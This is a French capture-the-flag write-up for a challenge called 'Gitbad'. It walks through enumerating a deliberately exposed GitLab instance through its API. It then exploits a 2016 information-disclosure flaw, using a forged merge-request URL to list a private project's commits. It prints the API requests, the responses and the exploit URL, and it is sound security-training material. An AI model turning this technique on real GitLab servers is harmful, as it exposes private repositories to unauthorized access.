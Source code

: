 # Gitbad

## Description

La plateforme Gitlab créée par un stagiaire de DGA MI semble être ouverte à tous !

Vous devez en profiter pour retrouver des informations sensibles. Les comptes créés sur Gitlab sont validés toutes les trois secondes.

> Accès à l'épreuve: http://gitbad2.chall.malicecyber.com:80/

## Solution

### Recherche de la cible

Nous avons la possibilité de créer un compte sur l'instance gitlab : ce qui nous permet d'avoir l'accès à beaucoup d'information.

Notamement, nous savons qu'il y a 6 projets public.

Le premier reflexe est donc de regardé dans les commits de chaque projet pour voir si des informations sensibles n'ont pas été divulgées : le résultat est sans appelle, aucun commit ne contient des données qui nous sont utiles.

Une information importante qu'on remarque en fouillant un peu sur notre profil est la possibilité d'utilisé l'api avec notre `private_token`.

L'API nous permet de connaitre la liste des utilisateurs enregistrés.

`GET /api/v3/users?private_token=vf9hrS28m6AV9xPkjYs4`


En créant un projet nous appartenant, on remarque que sont id est le `8`, on se demande donc ou est passé le `7`.

Quelques requetes plus tard, on s'aperçoit que nous n'avons pas accès au projet avec l'id `7`.

`GET /api/v3/projects/6/?private_token=vf9hrS28m6AV9xPkjYs4`

```json
{
  "id": 6,
  "description": "easy for me",
  "default_branch": "master",
  "tag_list": [],
  "public": true,
  "archived": false,
  "visibility_level": 20,
...
}
```

`GET /api/v3/projects/7/?private_token=vf9hrS28m6AV9xPkjYs4`

```json
{ "message": "404 Project Not Found" }
```

`GET /api/v3/projects/8/?private_token=vf9hrS28m6AV9xPkjYs4`

```json
{
  "id": 8,
  "description": "",
  "default_branch": null,
  "tag_list": [],
  "public": false,
  "archived": false,
  "visibility_level": 0,
...
}
```

### Recherche de la vulnérabilité

Après la phase de reconnaissance, nous savons qu'un projet privée existe. Il nous faut donc trouver une vulnérabilité pour y accèder.

On commence donc par retrouver la version du gitlab grâce à la page `/help`.

![gitlab version](../assets/gitbad_1.png)

Une fois la version en notre possession, une recherche google permet de trouver un [article de gitlab](https://about.gitlab.com/releases/2016/05/02/cve-2016-4340-patches/) sur plusieurs CVE affectant notre version.

Au total nous avons 4 vulnérabilités :
 - https://www.exploit-db.com/exploits/40236
 - https://gitlab.com/gitlab-org/gitlab-ce/issues/15579
 - https://gitlab.com/gitlab-org/gitlab-ce/issues/15439
 - https://gitlab.com/gitlab-org/gitlab-ce/issues/15591

### Exploitation

La `CVE-2016-4340` semble etre la plus intéressante pour avoir accès au projet privé, cependant je n'ai pas réussit à l'exploiter à cause d'une erreur dans mon payload.

Je me suis donc tournée vers la vulnérabilité concernant la divulgation d'information via une merge request.

En utilisant un projet nous appartenant, on peut forger une merge request pour accèder au commit du projet privée.

`http://gitbad2.chall.malicecyber.com/test/dummy/merge_requests/new?utf8=%E2%9C%93&merge_request%5Bsource_project_id%5D=7&merge_request%5Bsource_branch%5D=master&merge_request%5Btarget_project_id%5D=8&merge_request%5Btarget_branch%5D=dev`

On obtient ainsi la liste des commits du projet privé, un en particulier retient notre attention.

![commits](../assets/gitbad_2.png)

On y accède pour obtenir le flag `W3lL-d0N3-y0u-w1n-a_c4ke!`.

## Write-up

- [Nicolas Bourras](https://nicolasb.fr/blog/writeup-dghack-gitbad/)
